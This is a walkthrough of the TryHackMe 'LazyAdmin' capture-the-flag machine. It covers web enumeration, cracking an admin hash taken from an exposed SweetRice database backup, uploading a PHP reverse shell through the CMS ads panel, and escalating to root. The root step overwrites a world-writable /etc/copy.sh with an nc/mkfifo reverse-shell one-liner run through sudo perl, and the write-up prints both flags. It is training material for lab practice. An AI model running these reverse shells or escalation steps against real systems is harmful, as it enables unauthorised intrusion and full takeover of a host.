




# LazyAdmin

## Description

Easy linux machine to practice your skills

Have some fun! There might be multiple ways to get user access.

## Initial Scan

Let's start with an Nmap scan. The scan reveals two open ports:

* 22 ssh
* 80 http

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Web Enumeration

We don't have initial access to the ssh service, so let's start with the web service. The main page is the default page of Apache2 and there is nothing in the source code, so I decided to run `gobuster` on it to find directories to work with:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/LazyAdmin]
└─$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP/                   
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.208.146/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/08 01:25:49 Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 316] [--> http://10.10.208.146/content/]
/index.html           (Status: 200) [Size: 11321]
~~~

We found `/content` directory and by navigating to it, we can see that "SweetRice" CMS is installed, but we don't have the version to look for exploitations:

I decided to run gobuster on this directory to see what we can find:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/LazyAdmin]
└─$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP/content/
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.208.146/content/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/08 01:27:02 Starting gobuster in directory enumeration mode
===============================================================
/_themes              (Status: 301) [Size: 324] [--> http://10.10.208.146/content/_themes/]
/as                   (Status: 301) [Size: 319] [--> http://10.10.208.146/content/as/]     
/attachment           (Status: 301) [Size: 327] [--> http://10.10.208.146/content/attachment/]
/images               (Status: 301) [Size: 323] [--> http://10.10.208.146/content/images/]    
/inc                  (Status: 301) [Size: 320] [--> http://10.10.208.146/content/inc/]       
/index.php            (Status: 200) [Size: 2199]                                              
/js                   (Status: 301) [Size: 319] [--> http://10.10.208.146/content/js/]
~~~

As you can see, we found a few directories. I started looking through them and found a login panel in `/content/as`:

### Finding Credentials

I tried some default creds, but none worked. `/content/attachment` was empty and `/content/images` contained the images used in the website, but I found something interesting in `/content/inc` directory:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/LazyAdmin]
└─$ curl -s "http://$IP/content/inc/" | html2text
****** Index of /content/inc ******
[[ICO]]       Name                 Last_modified    Size Description
===========================================================================
[[PARENTDIR]] Parent_Directory                        -  
[[   ]]       404.php              2016-09-19 17:55 1.9K  

[REDACTED]

[[TXT]]       lastest.txt          2016-09-19 17:55    5  
[[DIR]]       mysql_backup/        2019-11-29 12:30    -     <------------
[[   ]]       rssfeed.php          2016-09-19 17:55 1.6K  

[REDACTED]
~~~

There is a folder named `mysql_backup` and after looking through, I found a backup file:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/LazyAdmin]
└─$ curl -s "http://$IP/content/inc/mysql_backup/" | html2text
****** Index of /content/inc/mysql_backup ******
[[ICO]]       Name                        Last_modified    Size Description
===========================================================================
[[PARENTDIR]] Parent_Directory                               -  
[[   ]]       mysql_bakup_20191129023059- 2019-11-29 12:30 4.7K  
              1.5.1.sql
~~~

After downloading the file, I found the admin's username and password hash inside it:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/LazyAdmin/files]
└─$ grep -i "pass" mysql_bakup_20191129023059-1.5.1.sql
  14 => [REDACTED] \\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\ [REDACTED]
~~~

The password is hashed with MD5. I used [crackstation](https://crackstation.net/) to crack it: 

Now we have creds to login from `/content/as`:

* Username: `manager`
* Password: `Password123`

## Reverse Shell

Now that we access to admin panel, we can gain a reverse shell. After you logged into admin panel, click on "Ads" on the left hand menu (Go full screen to see it). Here we can add advertisement codes to the website. Copy and paste [this](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) php reverse shell, modify the code and change the IP to yours and change the listening port if you want to (I chose port 4444). Name it and click on "Done" (php extention we'll be added to it automatically):

Now open a listener (`rlwrap nc -lvnp 4444`) and call the shell from `http://<MACHINE IP>/content/inc/ads/<SHELLNAME>.php`. Now if you have done everything correctly, you should have a shell as `www-data`. The first thing I did, was spawning a TTY shell using a python one-liner:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/LazyAdmin/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.208.146] 42688
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 10:03:00 up  1:43,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@THM-Chal:/$ 
~~~

## User Flag

Now that we have a shell, we can start looking for the flags. If you list `/home` directory, you can see the only user on the machine: `itguy`. We can find the user flag in this user's home directory:

~~~
www-data@THM-Chal:/$ ls /home
itguy
www-data@THM-Chal:/$ cd /home/itguy
www-data@THM-Chal:/home/itguy$ ls
Desktop    Downloads  Pictures	Templates  backup.pl	     mysql_login.txt
Documents  Music      Public	Videos	   examples.desktop  user.txt
www-data@THM-Chal:/home/itguy$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
~~~

User flag: `THM{63e5bce9271952aad1113b6f1ac28a07}`

## Privilege Escalation

Now we need to escalate our privilege, in order to obtain the root flag. I ran `sudo -l` to check my sudo permissions:

~~~
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
~~~

As you can see, we can run a perl script named `backup.pl` located in `itguy`'s home directory using `perl` with sudo and no password. Let's see what the script does:

~~~
www-data@THM-Chal:/home/itguy$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
~~~

It only has one line of code and it just runs a shell script (`/etc/copy.sh`) and we also have write access to it. Let's see what the script does:

~~~
www-data@THM-Chal:/home/itguy$ ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
~~~

It basicly is a bash reverse shell and it makes connection to the specified IP on port 5554. Since we have write access to `/etc/copy.sh`, we can replace the code with our own bash reverse shell and when we run `backup.pl` with sudo, it executes our reverse shell.

First, run the following command to replace the code with your reverse shell:

~~~
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR IP> 4242 >/tmp/f" > /etc/copy.sh
~~~

Now open a listener (`rlwrap nc -lvnp 4242`) and run the following command to execute the reverse shell:

~~~
$ sudo /usr/bin/perl /home/itguy/backup.pl
~~~

As you can see below, now we have a root shell:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/LazyAdmin/files]
└─$ rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.208.146] 42480
# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root Flag

Now that we are root, we can head to `/root` and read the root flag:

~~~
# cd /root
# ls
root.txt
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
~~~

Root flag `THM{6637f41d0177b6f37cb20d775124699f}`

# D0N3! ; )

Thanks to the creator(s) of this room!

Hope you had fun and learned something.

Have a g00d 0ne! : )